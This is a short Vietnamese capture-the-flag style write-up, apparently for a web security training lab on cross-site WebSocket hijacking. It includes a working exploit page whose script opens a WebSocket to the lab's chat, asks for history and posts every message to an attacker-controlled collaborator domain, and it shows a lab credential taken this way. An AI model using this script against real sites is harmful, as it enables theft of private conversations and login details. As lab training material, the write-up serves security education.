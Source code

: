 ## Cross-site WebSocket hijacking (REFER)

1. Nhận thấy khi reload lại live chat thì phía browser của client sẽ gửi message có nội dung `READY` thì phía server sẽ trả lại lịch sử live chat trước đó 

![Img1](\asset/../img/detect.png)

2. Craft trang exploit, tạo một wss request mới thông qua WebSocket object. Rồi gửi một message có nội dung ``READY`` để truy xuất lịch sử chat. Sau khi nhận được message thì fetch data vào body của request tới domain mình kiểm soát

```
<script>
    var ws = new WebSocket('wss://0ad700e303678808c2a4d91100fb009f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://framtw1jm5vie69o08e37tw8zz5qtf.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. View exploit nhận được lịch sử chat trong phiên của mình trong burp collaborator client. 

![Img2](\asset/../img/fetch_chat_history_of_attacker.png)

4. Gửi trang exploit đến victim, lấy được lịch sử chat của nạn nhân. Nhận thấy có chứa thông tin đăng nhập ``carlos:usrab7e2027hy4qzjk48``

![Img3](\asset/../img/fetch_chat_history_of_victim.png)